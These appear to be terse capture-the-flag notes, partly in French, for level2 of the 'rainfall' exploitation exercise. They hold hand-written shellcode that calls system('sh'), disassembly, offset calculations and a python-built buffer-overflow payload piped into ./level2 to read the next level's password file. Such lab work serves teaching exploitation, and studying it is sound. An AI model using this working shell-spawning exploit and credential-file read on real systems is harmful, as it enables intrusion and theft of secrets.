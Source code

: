 \x55\x89\xe5\x83\xec\x28\xc6\x45\xf5\x73\xc6\x45\xf6\x68\xc6\x45\xf7\x01\x0f\xb6\x45\xf7\x83\xe8\x01\x88\x45\xf7\x8d\x45\xf5\x89\x04\x24\xe8\xf5\xfe\xff\xff\xc9\xc3\x00



 80483e4:       55                      push   %ebp
 80483e5:       89 e5                   mov    %esp,%ebp
 80483e7:       83 ec 28                sub    $0x28,%esp
 80483ea:       c6 45 f5 73             movb   $0x73,-0xb(%ebp)
 80483ee:       c6 45 f6 68             movb   $0x68,-0xa(%ebp)
 80483f2:       c6 45 f7 01             movb   $0x1,-0x9(%ebp)
 80483f6:       0f b6 45 f7             movzbl -0x9(%ebp),%eax
 80483fa:       83 e8 01                sub    $0x1,%eax
 80483fd:       88 45 f7                mov    %al,-0x9(%ebp)
 8048400:       8d 45 f5                lea    -0xb(%ebp),%eax
 8048403:       89 04 24                mov    %eax,(%esp)
 8048406:       e8 f5 fe ff ff          call   8048300 <system@plt>
 804840b:       c9                      leave
 804840c:       c3                      ret
0xb7e6b060
/x0b/x7e/x6b/x60

adresse de la fonction injection : 0x804a008
\x08\xa0\x04\x08
 python -c "print('\x55\x89\xe5\x83\xec\x28\xc6\x45\xf5\x73\xc6\x45\xf6\x68\xc6\x45\xf7\x01\x0f\xb6\x45\xf7\x83\xe8\x01\x88\x45\xf7\x8d\x45\xf5\x89\x04\x24\xe8\x2f\x10\xe2\xaf\xc9\xc3\x00' + '\x00' * (64 + 16 - 42) + '\x08\xa0\x04\x08')" > /tmp/test.txt

 (python -c "print('\x55\x89\xe5\x83\xec\x28\xc6\x45\xf5\x73\xc6\x45\xf6\x68\xc6\x45\xf7\x01\x0f\xb6\x45\xf7\x83\xe8\x01\x88\x45\xf7\x8d\x45\xf5\x89\x04\x24\xe8\x2f\x10\xe2\xaf\xc9\xc3\x00' + '\x00' * (64 + 16 - 42) + '\x08\xa0\x04\x08')" ; echo "cat /home/user/level3/.pass") | ./level2
 0x8049f26   134520614
 0x8048300	 134513408 

			4127129599 + 7206 = 4127136805

			f5 ff 1c 25

sys 	0xb7e6b060 = 3085348960
call	0xbfeb5091 = 3219869841

offset =  3219869841 - 3085348960 = 134520881

3085348960 - 134520881 = 2950828079 = \xaf\xe2\x10\x2f

return = \x2f\x10\xe2\xaf


0x80484d4 <p>                   push   %ebp                     
0x80484d5 <p+1>                 mov    %esp,%ebp                
0x80484d7 <p+3>                 sub    $0x68,%esp               
0x80484da <p+6>                 mov    0x8049860,%eax           
0x80484df <p+11>                mov    %eax,(%esp)              
0x80484e2 <p+14>                call   0x80483b0 <fflush@plt>   
0x80484e7 <p+19>                lea    -0x4c(%ebp),%eax         
0x80484ea <p+22>                mov    %eax,(%esp)              
0x80484ed <p+25>                call   0x80483c0 <gets@plt>     
0x80484f2 <p+30>                mov    0x4(%ebp),%eax           
0x80484f5 <p+33>                mov    %eax,-0xc(%ebp)          
0x80484f8 <p+36>                mov    -0xc(%ebp),%eax          
0x80484fb <p+39>                and    $0xb0000000,%eax         
0x8048500 <p+44>                cmp    $0xb0000000,%eax         
0x8048505 <p+49>                jne    0x8048527 <p+83>         
0x8048507 <p+51>                mov    $0x8048620,%eax          
0x804850c <p+56>                mov    -0xc(%ebp),%edx          
0x804850f <p+59>                mov    %edx,0x4(%esp)           
0x8048513 <p+63>                mov    %eax,(%esp)              
0x8048516 <p+66>                call   0x80483a0 <printf@plt>   
0x804851b <p+71>                movl   $0x1,(%esp)              
0x8048522 <p+78>                call   0x80483d0 <_exit@plt>    
0x8048527 <p+83>                lea    -0x4c(%ebp),%eax         
0x804852a <p+86>                mov    %eax,(%esp)              
0x804852d <p+89>                call   0x80483f0 <puts@plt>     
0x8048532 <p+94>                lea    -0x4c(%ebp),%eax         
0x8048535 <p+97>                mov    %eax,(%esp)              
0x8048538 <p+100>               call   0x80483e0 <strdup@plt>   
0x804853d <p+105>               leave                                                                                                                                                                       
0x804853e <p+106>               ret              


pourquoi : https://github.com/ForAbby-X/rainfall/blob/main/rainfall.txt

(python -c "print('\x55\x89\xe5\x83\xec\x28\xc6\x45\xf5\x73\xc6\x45\xf6\x68\xc6\x45\xf7\x01\x0f\xb6\x45\xf7\x83\xe8\x01\x88\x45\xf7\x8d\x45\xf5\x89\x04\x24\xe8\x2f\x10\xe2\xaf\xc9\xc3\x00' + '\x00' * (64 + 16 - 42) + '\x08\xa0\x04\x08')" ; echo "cat /home/user/level3/.pass") | ./level2